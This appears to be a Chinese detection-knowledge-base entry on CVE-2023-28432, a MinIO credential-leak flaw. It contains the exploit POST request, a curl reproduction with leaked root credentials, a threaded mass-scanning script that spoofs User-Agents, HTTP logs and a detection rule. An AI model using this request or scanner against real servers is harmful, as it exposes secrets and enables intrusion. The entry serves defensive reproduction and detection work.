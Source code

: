 # T1190-CVE-2023-28432-MinIO集群模式信息泄露漏洞

## 来自ATT&CK的描述

使用软件，数据或命令来利用面向Internet的计算机系统或程序中的弱点，从而导致意外或无法预期的行为。系统的弱点可能是错误、故障或设计漏洞。这些应用程序通常是网站，但是可以包括数据库（例如SQL），标准服务（例如SMB 或SSH）以及具有Internet可访问开放的任何其他应用程序，例如Web服务器和相关服务。根据所利用的缺陷，这可能包括“利用防御防卫”。

如果应用程序托管在基于云的基础架构上，则对其进行利用可能会导致基础实际应用受到损害。这可以使攻击者获得访问云API或利用弱身份和访问管理策略的路径。

对于网站和数据库，OWASP排名前10位和CWE排名前25位突出了最常见的基于Web的漏洞。

## 测试案例

MinIO是一个开源对象存储系统。

在其`RELEASE.2023-03-20T20-16-18Z`版本（不含）以前，集群模式部署下存在一处信息泄露漏洞，攻击者可以通过发送一个POST数据包获取进程所有的环境变量，其中就包含账号密码`MINIO_SECRET_KEY`和`MINIO_ROOT_PASSWORD`。

参考链接：

- <https://github.com/minio/minio/security/advisories/GHSA-6xvq-wj2x-3h3q>
- <https://mp.weixin.qq.com/s/GNhQLuzD8up3VcBRIinmgQ>

## 检测日志

HTTP.log

## 测试复现

### 漏洞环境

执行如下命令启动一个MinIO集群，其中包含3个以集群模式运行的服务：

```bash
docker-compose up -d
```

集群启动后，访问http://your-ip:9001可以查看Web管理页面，访问http://your-ip:9000是API服务。

### 漏洞复现

这个漏洞存在于API节点http://your-ip:9000/minio/bootstrap/v1/verify上，发送如下数据包即可查看泄露的环境变量：

```yml
POST /minio/bootstrap/v1/verify HTTP/1.1
Host: your-ip:9000
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.178 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 0
```

这里采用另外一种方法进行验证：

```sh
jackma@linux:~/下载$ curl -XPOST 10.211.55.71:9000/minio/bootstrap/v1/verify
{"MinioEndpoints":[{"Legacy":true,"SetCount":1,"DrivesPerSet":3,"Endpoints":[{"Scheme":"http","Opaque":"","User":null,"Host":"node1:9000","Path":"/mnt/data1","RawPath":"","OmitHost":false,"ForceQuery":false,"RawQuery":"","Fragment":"","RawFragment":"","IsLocal":true},{"Scheme":"http","Opaque":"","User":null,"Host":"node2:9000","Path":"/mnt/data2","RawPath":"","OmitHost":false,"ForceQuery":false,"RawQuery":"","Fragment":"","RawFragment":"","IsLocal":false},{"Scheme":"http","Opaque":"","User":null,"Host":"node3:9000","Path":"/mnt/data3","RawPath":"","OmitHost":false,"ForceQuery":false,"RawQuery":"","Fragment":"","RawFragment":"","IsLocal":false}],"CmdLine":"http://node1:9000/mnt/data1 http://node2:9000/mnt/data2 http://node3:9000/mnt/data3","Platform":"OS: linux | Arch: amd64"}],"MinioEnv":{"MINIO_ACCESS_KEY_FILE":"access_key","MINIO_CONFIG_ENV_FILE":"config.env","MINIO_KMS_SECRET_KEY_FILE":"kms_master_key","MINIO_ROOT_PASSWORD":"minioadmin-vulhub","MINIO_ROOT_PASSWORD_FILE":"secret_key","MINIO_ROOT_USER":"minioadmin","MINIO_ROOT_USER_FILE":"access_key","MINIO_SECRET_KEY_FILE":"secret_key"}}
```

可见，其中包含MINIO_SECRET_KEY和MINIO_ROOT_PASSWORD。使用这个账号密码，即可成功登录管理后台。

### 批量检测脚本

```py
import requests
import sys
import urllib3
from argparse import ArgumentParser
import threadpool
from urllib import parse
from time import time
import random
#app="minio"

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
filename = sys.argv[1]
url_list=[]

def get_ua():
    first_num = random.randint(55, 62)
    third_num = random.randint(0, 3200)
    fourth_num = random.randint(0, 140)
    os_type = [
        '(Windows NT 6.1; WOW64)', '(Windows NT 10.0; WOW64)',
        '(Macintosh; Intel Mac OS X 10_12_6)'
    ]
    chrome_version = 'Chrome/{}.0.{}.{}'.format(first_num, third_num, fourth_num)

    ua = ' '.join(['Mozilla/5.0', random.choice(os_type), 'AppleWebKit/537.36',
                   '(KHTML, like Gecko)', chrome_version, 'Safari/537.36']
                  )
    return ua

proxies={'http': 'http://127.0.0.1:8080',
        'https': 'https://127.0.0.1:8080'}

def wirte_targets(vurl, filename):
    with open(filename, "a+") as f:
        f.write(vurl + "\n")

#poc
def check_url(url):
    url=parse.urlparse(url)
    hostname  = url.hostname
    url=url.scheme + '://' + url.netloc
    vulnurl=url + "/minio/bootstrap/v1/verify"
    headers = {
        'User-Agent': get_ua(),
        "host":hostname,
        "Content-Type": "application/x-www-form-urlencoded"
    }
    data=""
    try:
        res = requests.post(vulnurl, verify=False, allow_redirects=False, headers=headers,data=data ,timeout=5)
        if res.status_code == 200 and "MinioEn" in res.text:
            # print(res.text)
            print("\033[32m[+]{} is vulnerable\033[0m".format(url))
            wirte_targets(vulnurl,"vuln.txt")
        else:
            print("\033[34m[-]{} not vulnerable.\033[0m".format(url))
    except Exception as e:
        print("\033[34m[!]{} request false.\033[0m".format(url))
        pass

#多线程
def multithreading(url_list, pools=5):
    works = []
    for i in url_list:
        # works.append((func_params, None))
        works.append(i)
    # print(works)
    pool = threadpool.ThreadPool(pools)
    reqs = threadpool.makeRequests(check_url, works)
    [pool.putRequest(req) for req in reqs]
    pool.wait()


if __name__ == '__main__':
    arg=ArgumentParser(description='check_url By m2')
    arg.add_argument("-u",
                        "--url",
                        help="Target URL; Example:http://ip:port")
    arg.add_argument("-f",
                        "--file",
                        help="Target URL; Example:url.txt")
    args=arg.parse_args()
    url=args.url
    filename=args.file
    print("[+]任务开始.....")
    start=time()
    if url != None and filename == None:
        check_url(url)
    elif url == None and filename != None:
        for i in open(filename):
            i=i.replace('\n','')
            url_list.append(i)
        multithreading(url_list,10)
    end=time()
    print('任务完成,用时%ds.' %(end-start))
```
## 测试留痕

![http.log](/1.png)

HTTP_log

```yml
POST /minio/bootstrap/v1/verify HTTP/1.1
Host: 10.211.55.71:9000
User-Agent: curl/7.81.0
Accept: */*

HTTP/1.1 200 OK
Content-Security-Policy: block-all-mixed-content
Strict-Transport-Security: max-age=31536000; includeSubDomains
Vary: Origin
X-Amz-Id-2: e3b0c44298fc1c149afbf4c8996fb92427ae41e4649b934ca495991b7852b855
X-Amz-Request-Id: 176C8C25765008C9
X-Content-Type-Options: nosniff
X-Xss-Protection: 1; mode=block
Date: Tue, 27 Jun 2023 15:00:52 GMT
Content-Length: 1107
Content-Type: text/plain; charset=utf-8

{"MinioEndpoints":[{"Legacy":true,"SetCount":1,"DrivesPerSet":3,"Endpoints":[{"Scheme":"http","Opaque":"","User":null,"Host":"node1:9000","Path":"/mnt/data1","RawPath":"","OmitHost":false,"ForceQuery":false,"RawQuery":"","Fragment":"","RawFragment":"","IsLocal":true},{"Scheme":"http","Opaque":"","User":null,"Host":"node2:9000","Path":"/mnt/data2","RawPath":"","OmitHost":false,"ForceQuery":false,"RawQuery":"","Fragment":"","RawFragment":"","IsLocal":false},{"Scheme":"http","Opaque":"","User":null,"Host":"node3:9000","Path":"/mnt/data3","RawPath":"","OmitHost":false,"ForceQuery":false,"RawQuery":"","Fragment":"","RawFragment":"","IsLocal":false}],"CmdLine":"http://node1:9000/mnt/data1 http://node2:9000/mnt/data2 http://node3:9000/mnt/data3","Platform":"OS: linux | Arch: amd64"}],"MinioEnv":{"MINIO_ACCESS_KEY_FILE":"access_key","MINIO_CONFIG_ENV_FILE":"config.env","MINIO_KMS_SECRET_KEY_FILE":"kms_master_key","MINIO_ROOT_PASSWORD":"minioadmin-vulhub","MINIO_ROOT_PASSWORD_FILE":"secret_key","MINIO_ROOT_USER":"minioadmin","MINIO_ROOT_USER_FILE":"access_key","MINIO_SECRET_KEY_FILE":"secret_key"}}
```

## 检测规则/思路

对请求方法和URL、HOST内容进行分析，同时观察返回内容中是否包含MINIO_SECRET_KEY和MINIO_ROOT_PASSWORD。

## 参考推荐

MITRE-ATT&CK-T1190

<https://attack.mitre.org/techniques/T1190/>

CVE-2023-28432

<https://github.com/vulhub/vulhub/blob/6e9b1c1acd60529384a5751ea9de4dae595259c6/minio/CVE-2023-28432/README.zh-cn.md>

MinIO信息泄漏分析与复现CVE-2023-28432

<https://aq.mk/index.php/archives/142.html>
